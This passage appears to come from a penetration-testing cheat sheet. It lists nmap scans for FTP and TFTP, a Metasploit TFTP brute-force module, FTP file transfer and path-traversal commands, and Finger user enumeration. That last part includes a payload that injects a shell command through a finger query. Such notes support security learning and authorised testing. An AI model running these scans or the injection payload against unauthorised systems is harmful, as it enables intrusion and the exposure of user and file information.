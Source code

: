 ### nmap FTP scan:
- nmap -p 21 -sV [victim_ip]
- nmap -sV -sC [victim_ip] -p 21
- namp --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum,ftp-default,ftp-user-enum -p [victim_ip]
- nmap –top-ports 1000 -vv -Pn -b anonymous:password@[victim_ip:21]
- nmap -sU -p 69 --script tftp-enum.nse [victim_ip]
- nmap -oN tftp.nmap -v -sU -sV -T2 –script tftp* -p 69 [victim_ip]

### metasploit ftp module
```
use auxiliary/scanner/tftp/tftpbrute
```
### FTP upload and download file

- Download file from FTP
```
ftp> get file_name
```
- Upload file to ftp
```
ftp> put file_name
```
- In same case we need to turn on binary mode:
```
ftp> binary
```

### FTP path_traversal
```
dir ../
ls ../
```

### FTP change directory on Windows server
```
cd /Docume~1/
cd /Progra~1/
```

--------------------------------------------------------------------------------------------------------------------------------

# Finger

--------------------------------------------------------------------------------------------------------------------------------

Name/Finger protocol and the Finger user information protocol are simple network protocols for the exchange of human-oriented status and user information.

### finger user enumeration from commandline 
```
finger [username]@[ip]

finger "|/bin/ls -a /@[victim_ip]"
```
